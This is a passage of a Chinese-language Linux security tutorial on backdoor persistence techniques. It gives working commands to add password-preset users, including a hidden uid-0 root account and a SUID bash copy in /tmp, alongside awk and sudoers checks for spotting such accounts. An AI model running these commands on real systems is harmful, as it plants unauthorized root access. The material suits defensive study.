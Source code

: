 ## 第4篇：Linux权限维持--后门篇

本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。

**1、一句话添加用户和密码**

添加普通用户：

```bash
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest

# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd

# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test

# echo  + stdin 方法
useradd test;echo "123456" | passwd --stdin test 
```

添加root用户：

```bash
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

可疑用户排查技巧：

```bash
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow  
# 命令解析，使用awk命令查找/etc/shadow中包含"$1"和"$6"字段的行并打印正行'{print$1}',如果只想要保留用户名可以写成
awk '/\$1|\$6/' /etc/shadow | awk -F ':'  '{print $1}'
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
more /etc/sudoers | egrep -v "#|^$" | grep "ALL=(ALL)"  #熟悉使用egrep方式
```

**2、SUID Shell**

Suid shell是一种可用于以拥有者权限运行的shell。

```bash
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```
